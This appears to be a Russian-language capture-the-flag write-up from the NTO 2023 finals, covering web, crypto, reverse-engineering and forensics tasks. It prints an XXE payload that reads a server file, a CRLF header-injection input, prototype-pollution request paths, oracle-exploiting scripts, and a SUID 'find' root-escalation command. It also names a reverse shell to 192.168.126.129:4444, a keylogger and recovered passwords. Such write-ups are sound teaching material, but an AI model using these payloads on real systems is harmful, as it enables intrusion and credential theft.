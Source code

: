 # nto-final-2023-solves

## WEB 1

Пробуем различные атаки, используя форму рассчёта цены. Расшифровываем входящие и исходящие данные, используя клиентский js-скрипт, расположенный на сайте.
Замечаем, что в функцию encrypted можно передать xml помимо json. Значит, можно попытаться совершить xxe-атаку. Пробуем передать следущие данные (используя burpsuite), предварительно зашифровав их:

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><startdate>&xxe;</startdate><enddate>&xxe;</enddate><resttype>&xxe;</resttype></data>

Получаем ответ от сервера, расшифровываем:

    {"format":"xml","data":"<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE foo [\n<!ENTITY xxe SYSTEM \"file:///flag.txt\">\n]>\n<data>\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</countries>\n  <startdate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</startdate>\n  <enddate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</enddate>\n  <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</resttype>\n  <price>NaN</price>\n</data>\n"}

Видим, что флаг:

    nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}

## WEB 2

Исследуем скрипт приложений. Замечаем уязвимость в скрипте приложения, запущенного на порте 3002: куки небезопасно вставляются и передаются в приложение на порте 3001.
Переменную flag мы менять не можем, а вот переменную username вольно задаём при регистрации. Используя burpsuite, пробуем применять header injection в username.

Передаём следующий ник:

    test\r

На сервере возникает ошибка, и он выводит нам сообщение:

    Bad Request Bare CR or LF found in header line "Cookie: username=test ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)

Как видим, флаг:

    nto{request_smuggling_917a34072663f9c8beea3b45e8f129c5}

## WEB 3

Анализируем исходный код приложения. Видим, что можно применить prtotype pollution, напрямую через интерфейс сайта. Видим, что в коде самого приложения уязвимостей нету. Изучаем на github исходные ходы библиотек, использующихся в приложении.
В исходном коде библиотеки passport находим подходящее свойство для prototype pollution - userProperty.
Замечаем, что при присваивании свойству userProrerty значения isLocalRequest, при аутенфикации в isLocalRequest запишется информация о пользователе. Последовательно переходим по следующим каталогам сайта:

    /pollute/userProperty/isLocalRequest
    /auth?username=test
    /admin/flag

Получаем флаг:

    nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}

## CRYPTO 1

После нескольких запусков исходного кода замечаем, что выведенные числа не меняются в зависимости от длины введенной строки. Немного редактируем файл, дописывая полный перебор в его конец:

    orig = [277, 92, 775, ... 926, 1281, 631]
    res = ''

    for i in range(len(orig)):
       for j in 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLXCVBNM{}_1234567890':
         dihedral = DihedralCrypto(1337)
         answer = dihedral.hash((res + j).encode('utf-8'))
         if answer[i] == orig[i]:
           res += j
           break
    print(res)

Запустив его и подождав пару минут, получаем флаг:

    nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}

## CRYPTO 2

Замечаем, что если очередной бит флага равен 1, то результат, возращаемый с сервера, может быть абсолютно любым. Иначе, результат не может быть меньше чем n // 2. Исольхуем этот факт при написании следующего кода:

    from requests import get
    from Crypto.Util.number import long_to_bytes

    n = 7260248502...14489681551

    def f():
      cur_i, ans = 0, ''
      res = None
      while True:
        for _ in range(10):
          res = get(f'http://10.10.25.10:1177/guess_bit?bit={cur_i}').json()
          if 'error' in res:
            return ans
          if res['guess'] < n // 2:
            ans += '1'
            cur_i += 1
            break
        else:
          cur_i += 1
          ans += '0'

    print(long_to_bytes(int(f(), 2)).decode('utf-8'))

Запускаем, получаем флаг:

    nto{0h_n0_t1m1ng}

## REVERSE 2

Открыв данный исполняемый файл в IDA, сразу идем в функцию, где происходит проверка флага (поиск по подстроке nto). В этой функции видно, что данная строка разбивается на 7 int32 чисел и переводится в little-endian формат. 
Далее мы находим вызовы в инициализацию эмулятора unicorn, а также 224-байтный шеллкод на архитектуре MIPS x32. При дизассемблинге данного шелла, мы находим основную проверку на корректность флага. Алгоритм шифрования выглядит так:

    flag[0] &= 0x2c2c2c2c;
    compare(flag[0], const0);
    flag[0] ^= flag[1];
    compare(flag[0], const1);
    flag[0] ^= flag[2];
    compare(flag[0], const1);
    ....
    flag[0] &= flag[7];
    compare(flag[0], const7);

В данном случае можно легко восстановить операции xor, т.к. они однозначно обратимы. Получаем флаг (неизвестные части - знак вопроса)

    nto{Wh0_54id????s_1S_M3d????

В случае с and (4 и 7 части флага), можно догадаться что это слова This и Medium. Получаем флаг:

    nto{Wh0_54id_Th1s_1S_M3dium}
   
## PART 2 - VM 1(LINUX)

Злоумышленник попал на машину используя reverse-shell вшитый в файл игры minecraft.jar. Он подключался на 192.168.126.129:4444 и выполнял удаленные команды. После заражения, используя linPEAS, злоумышленник использовал неправильно настроенный find с suid битом. Используя команду 

    find . -exec /bin/sh -p ; -quit 
   
он поднял права до root. После заражения, злоумышленник загрузил кейлоггер logkeys. В истории команд можно найти путь до исполняемого файла кейлоггера: /home/sergey/Downloads/build/src/logkeys. Загрузив файл в любой дизассемблер, можно быстро найти как кейлоггер берет путь до файла лога. В кейлоггере используется простой XOR по ключу. Расшифровав путь, получаем /var/log/logkeys.log. Там и хранятся логи. Это также видно из истории команд bash_history. В файле /var/log/logkeys.log злоумышленник нашел логи нажатий клавиш, откуда нашел пароль от keepass2: 

    1_D0N7_N0W_WHY_N07_M4Y83_345Y

Запустив keepass2 и введя этот пароль, можно найти пароль от "windows rdp": 

    SecretP@ss0rdMayby_0rNot&
